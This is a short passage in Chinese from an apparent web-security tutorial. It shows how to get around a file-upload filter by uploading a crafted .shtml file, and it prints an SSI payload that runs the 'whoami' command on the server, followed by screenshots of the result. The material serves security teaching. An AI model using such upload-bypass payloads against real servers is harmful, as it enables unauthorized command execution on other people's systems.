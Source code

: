这里我们是无法上传正常的 PHP，所以就上传个构造好的 shtml 文件[![](assets/1704850598-05e2cd70fb3b2b8e024eebf3065eafb3.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/SmLqa6VkfhMflauz.png)

```bash
<!--#exec cmd="whoami" -->
```

上传后，访问  
[![](assets/1704850598-369826b6b6fd9a1c793a5498c312d239.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/MuVH29LcolYYpW7a.png)  
[![](assets/1704850598-6380513f01541bd3ef09cf988ab3e8f9.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/UQWLqvW8bk48OtJX.png)
